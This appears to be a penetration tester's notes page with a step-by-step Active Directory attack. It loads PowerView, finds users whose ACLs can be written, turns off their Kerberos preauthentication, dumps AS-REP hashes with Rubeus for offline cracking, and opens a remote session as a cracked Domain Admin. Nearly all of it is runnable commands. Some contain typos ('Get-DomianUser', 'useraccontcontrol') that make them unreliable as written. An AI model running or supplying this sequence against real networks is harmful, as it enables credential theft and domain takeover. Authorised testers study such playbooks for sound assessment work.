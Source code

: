 Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```

![[2._Powershell  Bypass#Execution bypass]]

```
Import-Module .\PowerView.ps1
```

Look for GenericAll or GenericWrite access to a user.
```
Get-DomainUser -PreauthNotRequired
```

Nothing found.

Copy your current user's Security Identifier value:
```
Get-DomianUser -Name $USER
```

```
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match '$SID')}
```

Nothing found.

```
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match '$SID')}
```

If nothing is still found, try the following command, and manually review ActiveDirectoryRights field.
```
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? {($_.SecurityIdentifier -match '$SID')}
```

Set to don't require preauth. 

https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties

```
Set-DomainObject -Identity $TARGET_USER -XOR @{useraccontcontrol=4194304} -Verbose
```

```
Get-DomainUser -PreauthNotRequired -Verbose
```

```
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes
```

Set target user's value back to what it was.
```
Set-DomainObject -Identity $TARGET_USER -XOR @{useraccontcontrol=512} -Verbose
```

[[Hashcat#Kerberos AS-REP]]

Is target part of Domain Admins?
```
Get-DomainUser -SamAccountName $TARGET_USER
```

If so:
```
Enter-PSSession -ComputerName $NETBIOS_COMPUTER_NAME -Credential $NETBIOS_DOMAIN_NAME\$TARGET_USER
```

